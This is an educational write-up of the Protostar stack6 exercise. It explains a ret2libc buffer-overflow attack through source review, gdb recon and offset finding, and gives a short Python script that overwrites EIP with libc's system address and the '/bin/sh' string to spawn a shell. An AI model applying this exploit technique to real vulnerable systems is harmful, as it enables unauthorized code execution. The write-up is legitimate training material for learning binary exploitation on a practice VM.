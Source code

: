 ```yaml
---
title: "ROP: ret2libc Attack -Protostar6"
author: "Trevor saudi"
date: 2021-05-12T10:30:13.245Z
lastmod: 2022-05-24T14:32:01+03:00

description: ""


image: "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png" 
images:
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/1.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/3.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/4.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/5.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/6.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/7.jpeg"


aliases:
    - "/rop-ret2libc-attack-protostar6-ab537d59b6a8"


tags:
- ROP
- ret2libc
---
```


## Bypassing stack pointer restrictions to gain arbitrary code execution

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/1.png#layoutTextWidth)



[_Protostar_](https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/) _is a series of beginner binary exploitation challenges which showcases concepts like basic stack-based buffer overflows, bypassing stack protections and even performing format string attacks. I tried out these challenges as I have close to 0 experience with binary exploitation and wanted to learn some of it and it turned out fun. So let’s get to_ [_protostar6_](https://exploit.education/protostar/stack-six/) _and learn some ret2libc !_

### Source code analysis and some recon

We are given the source code below to protostar6.c

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0); 

  if((ret & 0xbf000000) == 0xbf000000) { 
      printf("bzzzt (%p)\n", ret); 
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

As of previous challenges, our goal is get code execution on the target host which has the compiled binary of this source code. Some of the key things to understand here are:

*   ```gets(buffer) :``` The program will ask as for an input and store it an ```buffer of size 64 bytes.``` Gets is a vulnerable function in C that causes stack overflows
*   ```ret``` : __builtin_return_address(0) - This function checks the current return address on the stack and sets it to a variable ret
*   ```if((ret &amp; 0xbf000000) == 0xbf000000) :``` This check performs a ```bitwise AND``` operation with the ```current address on the stack``` with the hex value ```0xbf000000``` and then compares it with 0xbf000000. Essentially what this means is that, it checks if the first byte in the return address is equal to 0xbf, since the remaining bytes will be converted to 0 in the AND operation. 
```bash
Suppose our return address points to 0xbfffff01, the check is performed as follows

     0xbfffff01 = 10111111 11111111 11111111 00000001  
AND  0xbf000000 = 10111111 00000000 00000000 00000000  
            
The AND operation gives 0xbf000000. So any address beginning with 0xbf will cause the condition to return to true and exit the program`
```
*   ```_exit(0) :``` A system call to exit the function if the operation above gives us an address beginning with 0xbf

### Logic behind the non-executable stack protection

In classic buffer overflows, our goal is usually to overwrite the instruction pointer or the return address of a function with the address at the top of the stack where we put our shell code and get code execution.

But in this case, if we were to overwrite the return address with an address on the stack , the operation fails and the program exits. Let us see why using gdb

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png#layoutTextWidth)


Running the program and viewing how the addresses are mapped in memory we see something interesting. All addresses in the stack begin with 0xbf thus hijacking the control flow and pointing to the stack will fail

### ret2libc Exploit

A ret2libc (return to libc, or return to the C library) attack is one in which the attacker does not require any shellcode to take control of a target, vulnerable process.

“ Every time you write a C program, you use one or the other of the inbuilt functions, like `printf`, `scanf`, `puts` etc. Have you wondered where the definitions of these functions lie? All the standard C functions have been compiled into a single file, named ```the standard C library``` or the `libc`.You can use the `ldd` command to find out which libc is being used by an application. ”

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/3.png#layoutTextWidth)


We can leverage this technique by jumping to the return address of libc . libc has a syscall named `system` that we will use to execute ‘/bin/sh’ and gain shell

### Developing the exploit

1.  We begin by finding the location of the EIP. Generate the crash pattern and supply in gdb

```bash
/usr/bin/msf-pattern_create -l 100  
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

*   Supply the pattern and note down the address in the EIP
![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/4.png#layoutTextWidth)


*   Let us get the offset of the pattern 
```bash
/usr/bin/msf-pattern_offset -l 100 -q 0x37634136  
[*] Exact match at offset 80
```

2. Finding the address of libc

*   As noted earlier this can be done using `info proc map` the location of the libc is at `/lib/libc-2.11.2.so` with address `0xb7e97000` . The address in this case does not start with 0xbf hence we can load it onto the stack bypassing the stack protection
![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/5.png#layoutTextWidth)


3. Finding the address of the ```system``` syscall
`(gdb) p system ```<--- p means print```  
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>  
(gdb)`

4. Finding the location of the ‘/bin/sh’ within libc
`root@protostar:/opt/protostar/bin# strings -a -t x /lib/libc-2.11.2.so | grep &#34;/bin/sh&#34;  
 11f3bf /bin/sh  

`

*   strings command lists all readable strings
*   a scans through the entire file
*   -t x will print the addresses in hex
*   grep locates the string we specify with ‘/bin/sh’

In summary our exploit will

*   fill up the padding using 80 characters to reach the EIP.
*   Overwrite the EIP using the `system` syscall address which gets loaded onto the stack.
*   Since the stack will return control flow to the program, we still want to be in control of the EIP so we can chain multiple function calls. We cause the EIP to segfault using an invalid address that will be loaded onto the stack.
*   Then we load the address of the location of the ‘/bin/sh’ which will be `the libc address + offset of ‘/bin/sh’` that we found above.
*   Now the next address on the stack will be pointing to the string `‘/bin/sh’ `which system executes as `system(‘/bin/sh’)` and gives a shell

### Putting together a python exploit script

You could use pwntools for this but I will keep the walkthrough simple.
```python3
import struct
## EIP OFFSET
payload = "A"*80
## libc SYSTEM SYSCALL
system = struct.pack("I",0xb7ecffb0)
## Ret address after system
ret = "\x90" * 4
## libc /bin/sh
shell = struct.pack("I",0xb7e97000+0x11f3bf)
print (payload + system+ret+shell)
```
We run the exploit and concatenate with the `cat` command to open an stdin stream so we have access to the shell we get

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/6.png#layoutTextWidth)


If this walkthrough is not enough, I recommend using other resources to understand the concept of ret2libc as it may not be easy to grasp on the first try.

Happy hacking :)

